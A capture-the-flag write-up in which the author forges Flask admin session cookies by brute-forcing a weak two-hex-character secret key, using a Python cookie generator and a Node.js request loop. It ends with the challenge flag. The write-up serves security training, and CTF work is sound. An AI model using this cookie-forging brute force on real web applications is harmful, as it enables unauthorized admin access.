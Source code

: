 # wannabeadmin Challenge (medium)

## question 

I always wanted to be an Admin! Can You help my dreams become true?

url: http://challs1.taparctf.ir:9001

Format: Tapar{flag} Author: exploitio

Hint: there is something you can't see!

![screen-shot](./assets/wannabeadmin/screen1.png)

Attachments: 

- [main.py](./assets/wannabeadmin/main.py)

## answer

### step 1
after searching about `flask-session`, i figure out that inject `session` cookie with `{username: admin}` data.

but The main challenge is finding or guess `app.secret_key` value.

According to `main.py` file, secret key takes a random value:

```py
secret = choice(hexdigits) + choice(hexdigits)
app.secret_key = secret * 8
```

so, I change `main.py` and create `app.py` file:

```py
#!/usr/bin/env python
from flask import Flask, session, request, make_response

from string import hexdigits
from random import choice


app = Flask(__name__)
secret = choice(hexdigits) + choice(hexdigits)
app.secret_key = secret * 8

max_len = 22 * 8
secrets = []
index = 0
# generate all possible secret keys
while True:
    if len(secrets) >= max_len:
        break
    secret = choice(hexdigits) + choice(hexdigits)
    new_sec = secret * 8
    if new_sec not in secrets:
        secrets.append(new_sec)


@app.route('/set/')
def set():
    global index, secrets
    app.secret_key = secrets[index]
    session['username'] = 'admin'
    my_cookie = request.cookies.get('session')
    print('session: [{}][{}] => {}\n----------\n',
          index, app.secret_key, my_cookie)
    index += 1
    return 'ok'


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=9001)

# call `/set/` api and store its cookie value
ff = open('secrets.txt', 'w')
llen = len(secrets)
for i in range(0, llen):
    with app.test_client() as c:
        rv = c.get('/set/')
        secret = rv.headers['Set-Cookie'].split(';')[0].split('=')[1]
        ff.write(secret+'\n')
        print(rv.headers['Set-Cookie'])
ff.close()

```

this code, generate all possible secret keys (but not really all possibilities!), then I create a `/set/` API, and in every call, change app secret key every time.

finally I should to simulate call this Api for 176 times and store generated cookies in a file!

to run this script, just need to follow below:

```bash

pip3 install Flask Flask-Session 
flask run 

```

### step 2

Now, I should to simulate call main url and inject a new cookie every time (read from a file generated by my `app.py`)

for this step, I create a js script named `requests.js`:

```js
const fs = require('fs');
const axios = require('axios');

async function main() {
    let secrets = (fs.readFileSync('./secrets.txt').toString()).split('\n');
    if (fs.existsSync('./responses.txt')) {
        fs.unlinkSync('./responses.txt');
    }

    for (let i = 0; i < secrets.length; i++) {
        console.log(`[${i}] testing secret: ${secrets[i]}`);
        let res = await axios.request({
            url: "http://challs1.taparctf.ir:9001/",
            method: "get",
            headers: {
                Cookie: `session=${secrets[i]};`
            }
        });
        fs.writeFileSync('./responses.txt', res.data);
        if (res.data.indexOf('Only an Admin can see the FLAG!') === -1) {
            console.log('SUCCESS!!!!!');
            break;
        }
    }

}

main();

```

this script read all generated cookies from `secrets.txt` file and create requests for cookies by `axios`.

if in response of each request not see `Only an Admin can see the FLAG!` string, means that we got flag:) (Although it may be a http error!)

for run this script:

```bash
npm i axios
node requests.js

```

![screen-shot](./assets/wannabeadmin/screen2.png)

In final, I found the flag: 

**`Tapar{I_4lw4ys_W4nR3d_T0_b3_4dmin_74vr74v298uhffr}`**

## author

madkne in 2023.05.07

website: http://taparctf.ir/